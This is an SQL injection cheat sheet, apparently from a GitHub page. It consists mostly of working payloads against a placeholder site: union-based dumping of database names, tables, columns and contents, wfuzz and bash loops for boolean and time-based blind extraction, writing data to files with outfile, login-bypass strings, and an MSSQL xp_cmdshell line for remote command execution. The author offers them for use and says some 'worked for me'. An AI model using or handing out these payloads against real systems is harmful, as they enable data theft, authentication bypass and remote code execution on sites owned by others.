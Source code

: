 # SQL Injection

```php
limit <row offset>,<number of rows>                          # display rows based on offset and number  

count(*)                                                     # display number of rows  

rand()                                                       # generate random number between 0 and 1 

floor(rand()*<number>)                                       # print out number part of random decimal number 

select(select database());                                   # double query (nested) using database() as an example 

group by <column name>                                       # summerize rows based on column name  

concat(<string1>, <string2>, ..)                             # concatenate strings such as tables, column names  

length(<string>)                                             # calculate the number of characters for given string 

substr(<string>,<offset>,<characters length>)                # print string character(s) by providing offset and length 

ascii(<character>)                                           # decimal representation of the character 

sleep(<number of seconds>)                                   # go to sleep for <number of seconds>

if(<condition>,<true action>,<false action>)                 # conditional if statement 

like "<string>%"                                             # checks if provided string present

outfile "<url to file>"                                      # dump output of select statement into a file

load_file("<url to file>")                                   # dump the content of file
```

Now comes the fun part, here's combination of error, union, blind SQL command injection examples.

Determine back-end query number of columns with error-based string SQL command injection

```php
http://meh.com/index.php?id=1 order by <number>
```

Determine back-end query number of columns by observing `http response size` with `wfuzz` in error-based integer SQL command injection

```php
wfuzz -c -z range,1-10 "http://meh.com/index.php?id=1 order by FUZZ"
```

Identify webpage printable union columns by providing false value to back-end query with error-based integer SQL command injection. This injection depends on number of columns identified by `order by` clause

```php
http://meh.com/index.php?id=-1 union select <number of columns seperated by comma>
```

Dump the content of table into the filesystem

```php
http://meh.com/index.php?id=-1')) union select <column1>,<column2> from <table name> into outfile "<url to file>" --+
```

Print back-end SQL version with error-based integer SQL command injection, assuming column 3 content gets diplayed on webpage

```php
http://meh.com/index.php?id=-1 union select 1,2,@@version,4,...
```

Print user running the query to access back-end database server with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,user(),4,...
```

Print database name with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,database(),4,...
```

Print database directory with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,@@datadir,4,...
```

Print table names with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(table_name),4,... from information_schema.tables where table_schema=database()
```

Print column names with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(column_name),4,... from information_schema.columns where table_name='<table name>'
```

Print content of column with error-based integer SQL command injection

```php
http://meh.com/index.php?id=-1 union select 1,2,group_concat(<column name>),4,... from <table name>
```

Use `and` statement as substitute to reqular comments such as `--+`, `#`, and `/* */` with error-based string SQL command injection

```php
http://meh.com/index.php?id=1' <sqli here> and '1
```

Determine databsae name with boolean-based blind SQL injection with `substr()`

```php
http://meh.com/index.php?id=1' and (substr(database(),<offset>,<character length>))='<character>' --+
```

Determine databsae name with boolean-based blind SQL injection by observing `http response size` with combination of `substr()` and `wfuzz`, assuming database name does not include special characters

```php
for i in $(seq 1 10); do wfuzz -c -z list,a-b-c-d-e-f-g-h-i-j-k-l-m-n-o-p-q-r-s-t-u-v-w-x-y-z --hw=<word count> "http://meh.com/index.php?id=1' and (substr(database(),$i,1))='FUZZ' --+";done
```

Determine databsae name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()` and `wfuzz`. The below range is the standard ASCII characters \(32-127\)

```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done
```

Determine table name with boolean-based blind SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters \(32-127\)

```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available table name
```

Determine column name with boolean blind-based SQL injection by observing `http response size` with `substr()`, `ascii()`, and `wfuzz`. The below range is the standard ASCII characters \(32-127\)

```php
for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name=<table name> limit 0,1),$i,1)))=FUZZ --+";done # increment limit first argument by 1 to get the next available column name
```

Boolean-based blind SQL command injection demo

![alt text](https://j.gifs.com/W77p8o.gif)

Confirm time-based blind SQL injection using `sleep()` function

```php
http://meh.com/index.php?id=1' and sleep(10) --+
```

Determine database version with time-based blind SQL injection using `sleep()`, `like""`, and conditional `if`, assuming the back-end database is running version 5

```php
http://meh.com/index.php?id=1' and if((select version()) like "5%", sleep(10), null) --+
```

Determine database name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, and `wfuzz`.The below range is the standard ASCII characters \(32-127\)

```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((ascii(substr(database(),$i,1)))=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt>
```

Determine table name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters \(32-127\)

```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(table_name,$i,1))from information_schema.tables where table_schema=database() limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available table name
```

Determine column name with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters \(32-127\)

```php
for i in $(seq 1 10); do wfuzz -v -c -z range,32-127 "http://meh.com/index.php?id=1' and if((select ascii(substr(column_name,$i,1))from information_schema.columns where table_name='<table name>' limit 0,1)=FUZZ, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # increment limit first argument by 1 to get the next available column name
```

Extract column content with time-based blind SQL injection by observing `http response time` with `substr()`, `ascii()`, `if`, and `wfuzz`.The below range is the standard ASCII characters \(32-127\)

```php
for i in $(seq 1 10); do wfuzz -v -c -z range,0-10 -z range,32-127 "http://meh.com/index.php?id=1' and if(ascii(substr((select <column name> from <table name> limit FUZZ,1),$i,1))=FUZ2Z, sleep(10), null) --+";done > <filename.txt> && grep "0m9" <filename.txt> # change <column name> to get the content of next column
```

Time-based blind SQL command injection with bash magic demo

![alt text](https://j.gifs.com/2vv2J1.gif)

Hope those were helpfull! Now here's couple login bypass commands that worked for me

```php
meh' OR 3=3;#
meh' OR 2=2 LIMIT 1;#
meh' OR 'a'='a
meh' OR 1=1 --+
```

Sometimes you'll run into Microsoft SQL server that have `xp_cmdshell` turned on, here's syntax for remote code execution

```php
meh' exec master..xp_cmdshell '<command here>' --
```

Final notes!

* If you made it this far then you know that most of the SQL command injection examples are based on `MySQL` and I don't plan on making any for `MSSQL` cause I'm lazy
* Use your proxy of choice to bypass client-side javascript restrictions
* `order by` clause works only with regular comments such as `--+`
* Update ASCII range to include special characters if you're going after users table
* `MySQL` don't have permissions to overwrite an exsisting file, make sure you go with new filename every single time with `outfile`.
* Make sure the vulnerable paramater have false value when working with union-based SQL command injection
* It's worth noting that all of the examples in this cheatsheet where http `GET` requests, and it shouldn't be that hard to replicate them with http `POST`requests once you grasp the core concepts.
* You need to input true value to the vulnerable paramter for `and sleep()` to work, otherwise go with `or sleep()`. Here's an example for the sake of clarification

  ```php
  http://meh.com/index.php?id=<true value>' and sleep(1) #
  http://meh.com/index.php?id=<false value>' or sleep(1) #
  ```

  To do list

* Python or bash script to convert ascii to text after data extraction \(grep output in this case\)
* Create outfile && loadfile templates

